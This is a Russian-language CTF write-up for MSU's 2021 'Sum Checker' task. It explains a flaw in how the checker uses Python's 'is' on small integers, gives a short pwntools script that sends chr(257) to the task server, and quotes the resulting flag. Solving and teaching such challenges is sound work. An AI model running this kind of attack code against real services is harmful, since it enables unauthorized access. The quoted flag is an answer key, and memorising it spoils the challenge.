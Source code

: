 # Sum Checker
_Похоже, разработчик этого сервиса полагается на коммутативность для обеспечения безопасности..._

_nc sum-checker.tasks.2021.ctf.cs.msu.ru 20002_

[checker.py](checker.py)

### Solution
В файле checker.py наблюдаем сравнение пользовательского ввода (после преобразований) оператором is, чтобы получить флаг, нам нужно выполнение следующего условия:
```python
sum([ord(i) for i in our_input]) % 260 is sum([ord(i) for i in our_input[::-1]]) % 260 == False
```

Оператор is используют, чтобы удостовериться, что переменные указывают на один и тот же объект в памяти. Python указывает на один и тот же объект, если его значение не превышает один байт (2**8).
Таким образом, нам остаётся написать скрипт, который отправляет символ с кодом ∈ \[257-259].

[pwm1.py](pwn1.py)
```python
import pwn

c = pwn.connect('sum-checker.tasks.2021.ctf.cs.msu.ru', 20002)
c.recvuntil(':')
c.sendline(bytes(chr(257).encode()))
flag = c.recvuntil('}').decode()
print(flag)

`
Flag: MSKCTF{pr3d3f1n3d_c0n$t4nt$_pai8eege2a}
`